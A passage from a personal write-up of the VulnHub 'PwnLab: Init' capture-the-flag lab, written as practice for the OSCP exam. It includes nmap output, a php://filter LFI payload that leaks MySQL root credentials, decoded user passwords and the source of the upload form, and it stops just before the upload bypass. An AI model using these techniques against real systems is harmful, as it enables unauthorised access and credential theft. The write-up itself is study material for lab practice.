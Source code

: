 # PwnLab: Init

https://www.vulnhub.com/entry/pwnlab-init,158/

Another lab taken from [abatchy's list](https://www.abatchy.com/2017/02/oscp-like-vulnhub-vms) of OSCP-like vulnhub instances.

## Port Recon

An all port scan gives:

```bash
kali@kali:~$ nmap -p- 192.168.1.70
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-29 01:13 EDT
Nmap scan report for 192.168.1.70
Host is up (0.016s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
3306/tcp  open  mysql
59496/tcp open  unknown
```

MySql and ssh both require creds. The rcpbind instance, when scanned more deeply, reveals nothing but rcpbind and 'status' listening on a variety of ports, including that 59496 port. At this stage, this means the only port of instance is 80.

## 'PwnLab Intranet Image hosting'

The website is a a simple site that allows image uploading for logged in users. A dirb, nikto, wfuzz all reveal:

- four apparent pages: index.php, login.php, upload.php and config.php. The last doesn't render anything, but does reveal a 200 code if visited.
- two directories that are listable: /upload/ and /images/ (the latter hosts the site's banner)

Importantly, the base page doesn't actually link to the others; instead it uses a `?page=` query string parameter that appears to load the other page content. I tried various attempted LFI techniques (local file inclusion) but none worked.

## A hint

I was stuck at this point. I don't like going for hints, but if I can't make any headway I go and skim someone elses walkthrough, or ask a friend. Typically its useful as I am new at this, and there is a lot I know I don't know and which I won't be able to figure out regardless of how much I bang my head against it. So, as long as I have had a good go at it, I view looking for a hint as being a learning opportunity.

It definitely was in this case; I wouldn't have guessed you can use a php filter with a LFI opportunity:

1. The use of ?page= indicates the core index page is loading the PHP from the indicated file and rendering it.
2. When dealing with LFI with PHP, there are a variety of techniques (e.g. documented here on [this nice medium post](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601))
3. After testing one or two, the one that worked was the use of a php filter with base 64 encoding.

Using a filter, when the site loaded the local resource (it would still only work with its local, defined resources), I could get it to output the base64 encoded content of the indicated reource, e.g. the config file:

`http://192.168.1.70/?page=php://filter/convert.base64-encode/resource=config` (rather than `?page=config`)

This prints the string on the page: `PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8+` which decodes to (I used burp decoder):

```php
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

These credentials will be useful in the next step.

Additionally, I can decode the relevant section of index.php to see how this all works:

```php
if (isset($_GET['page']))
	{
		include($_GET['page'].".php");
	}
```

## MySql and login

I can use the credentials above to log into mysql remotely (`mysql -h <ip> -u root -p` plus the password from above). It contained a single table of note, containing the users for the site with encoded passwords:

```bash
MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |                                                                                                                                                                                                 
| mike | U0lmZHNURW42SQ== |                                                                                                                                                                                                 
| kane | aVN2NVltMkdSbw== |                                                                                                                                                                                                 
+------+------------------+                                                                                                                                                                                                 
3 rows in set (0.001 sec)       
```

The encoding is obviously base64, though I can determine this for sure using the trick above to get the login page source code:

```php
$luser = $_POST['user'];
$lpass = base64_encode($_POST['pass']);

$stmt = $mysqli->prepare("SELECT * FROM users WHERE user=? AND pass=?");
```

Choosing kane (obviously, my Brotherhood of Nod allegience is strong), his password is decoded to `iSv5Ym2GRo`. I use this to log into the site.

## Bypassing the Image Uploader

After logging in, I can access the upload screen. An obvious first test is whether I can just upload a PHP shell, but it fails. Just renaming the shell also fails, so I grab the source from the upload page via the above technique:

```php
 <?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
	<body>
		<form action='' method='post' enctype='multipart/form-data'>
			<input type='file' name='file' id='file' />
			<input type='submit' name='submit' value='Upload'/>
		</form>
	</body>
</html>
<?php 
if(isset($_POST['submit'])) {
	if ($_FILES['file']['error'] <= 0) {
		$filename  = $_FILES['file']['name'];
		$filetype  = $_FILES['file']['type'];
		$uploaddir = 'upload/';
		$file_ext  = strrchr($filename, '.');
		$imageinfo = getimagesize($_FILES['file']['tmp_name']);
		$whitelist = array(".jpg",".jpeg",".gif",".png"); 

		if (!(in_array($file_ext, $whitelist))) {
			die('Not allowed extension, please upload images only.');
		}

		if(strpos($filetype,'image') === false) {
			die('Error 001');
		}

		if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
			die('Error 002');
		}

		if(substr_count($filetype, '/')>1){
			die('Error 003');
		}

		$uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

		if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
			echo "<img src=\"".$uploadfile."\"><br />";
		} else {
			die('Error 4');
		}
	}
}

?>
```
